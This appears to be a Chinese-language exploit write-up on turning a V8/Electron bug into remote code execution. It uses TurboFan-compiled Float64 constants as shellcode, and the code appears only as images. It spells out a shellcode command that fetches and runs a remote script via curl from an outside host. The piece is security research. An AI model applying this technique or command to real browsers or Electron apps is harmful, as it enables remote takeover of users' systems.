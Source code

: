 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taefIXEWmQFaAbia2QnicoumicURC5ZzO9xnbNF6PhGkFatvfAAc8lDNmr8Jxn693YQ0p8rbyn052lZ5w/640?wx_fmt=png&from=appmsg "")  
  
  
获得指令指针控制权  
  
根据之前的测试，预计读取 fooJitAddr+0x7 将返回指向已编译的 TurboFan 生成代码的指针。在实际测试时，发现该地址与上次测试中的地址非常相似。此地址是本机堆地址，而不是 v8 堆地址，因此不能使用原语在将要跳转到的堆上的位置读取和写入 shellcode。但是，可以读取该地址，可以将 0x7c 添加到其中，并且可以用这个总和覆盖它。这将导致这个被覆盖的地址被前一条在 jmp $rcx 指令之前发生段错误的指令加载到 $rcx 中。这将跳转到执行 TurboFan 为 foo 函数生成的第一个 movabs 指令中的 8 字节立即值，其中包含 shellcode 的 Float64s。  
  
pwn 函数已被修改来执行此操作，它如下所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taefIXEWmQFaAbia2QnicoumicUwCOIZhOAH7SNJL1QemBMnUGBRKfhmMnK8oicnzibGy9ibUILzGq3A696Q/640?wx_fmt=png&from=appmsg "")  
  
当此操作在易受攻击的 Electron 版本中成功执行时，写入后对函数 foo() 的调用导致 TurboFan 编译后的代码跳转到比预期更远的 0x7c 字节，8 字节的 shellcode 块从这里开始。shellcode 成功运行，并调用了 /bin/sh 的 execve，导致 Electron 中出现以下情况。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taefIXEWmQFaAbia2QnicoumicUsaUmxV3A4ujDiapSoUKric5e8BlkfiaCH7L8dnicodZ5UqnAJMdZZYLMGA/640?wx_fmt=png&from=appmsg "")  
  
渲染器进程已消失，因为它已用 /bin/sh 替换自身并退出。在运行漏洞利用程序之前，在附加到渲染器的 GDB 会话中，观察到 /bin/sh 已成功执行。在用于编写漏洞利用程序的系统上，它恰好是指向 /usr/bin/dash 的符号链接。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taefIXEWmQFaAbia2QnicoumicUf1CPrnv4aJEJHDM7KuB6aTiabAIUyPe2f4PLYDlV2mpFeRs2vE1Hia1Q/640?wx_fmt=png&from=appmsg "")  
  
这足以证明远程代码执行是可能的。对于正在运行的 Chrome 渲染器进程，这不是一个有用的概念验证有效负载，因为攻击者无法与其 stdio 进行交互。最好编写更有用的 shellcode，使用参数调用 /bin/sh，并真正做一些有影响力的事情。  
  
编写更有用的 shellcode  
  
有必要编写更有用的 shellcode，以显示执行从远程服务器提取的任意脚本的能力。为此，编写了运行的 shellcode /bin/sh '$(/bin/curl www.turb0.one/files/s)'。编写了以下可以合理执行此操作的 shellcode，并且所有指令都小于或等于 6 个字节，以便它们可以容纳 8 字节立即 movabs 值，并在末尾为 jmp 留出 2 个字节的空间，使其进入下一个 8 字节立即值。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taefIXEWmQFaAbia2QnicoumicUHfrx3DzaWt6O9AkSibic9kNzGdmRVDGKlkIYPL16yh6MP9HK4ibAyzsNw/640?wx_fmt=png&from=appmsg "")  
  
在开头包含一个 int3 指令，以便 GDB 在 shellcode 启动时中断，并且可以验证 TurboFan 生成具有 8 字节立即值的 movabs 指令。这些包含 shellcode 的 8 字节十六进制数通过这个可能过于精确的在线工具运行，以将 shellcode 块转换为 Float64 值以用于 foo() 函数。foo() 函数现在如下所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taefIXEWmQFaAbia2QnicoumicUQyBiccQFoykvuoDmRFfMfsjOErbAK7a9tjsN3rkBFWCXN3acZAe3GZQ/640?wx_fmt=png&from=appmsg "")  
  
由于数组中条目数量的变化，TurboFan 编译后的代码实际上看起来有些不同。必须更改跳转的编译函数地址的偏移量。使用了与之前已知地址相同的段错误技巧，发现偏移量为 0x82。之前的 pwn() 函数已更新为使用此偏移量而不是 0x7c。通过此更改，使用连接到渲染器进程的 GDB 运行漏洞利用程序，并命中 int3 断点。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taefIXEWmQFaAbia2QnicoumicUNJvDQQ30GJc424AcTxUbFQXJKjHeGHXNg6B24ljQHa9fN4rttLibQjA/640?wx_fmt=png&from=appmsg "")  
  
已到达 shellcode，并在其中执行。但是，当继续执行时，shellcode 中发生段错误，而不是执行 /bin/sh。  
  
排除较长的 shellcode 故障  
  
当尝试找出段错误发生的位置和原因时，很明显 shellcode 出了什么问题。列出了指令指针之前的一些指令，并观察到预期的 movabs 指令并不总是存在，这些指令具有 8 字节立即值，间隔 0x14 字节。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taefIXEWmQFaAbia2QnicoumicUdH5F3gXRdCLHsIbICtqsK5VVanKQI19hWmONjbTGxv63VUBYcLIJbg/640?wx_fmt=png&from=appmsg "")  
  
看来 TurboFan 已经为 foo() 函数生成了代码，该代码优化了 shellcode 所在的 Float64 数组中某些重复值的加载。这应该是意料之中的，因为 TurboFan 是 v8 的顶级 JIT 编译器，旨在生成最优化的 JIT 代码。这意味着如果要使用此方法编写更长的 shellcode 有效负载，则必须确保 shellcode 不会重复，因此 TurboFan 无法执行这些优化，而是生成具有 8 字节立即值的所需 movabs 指令。  
  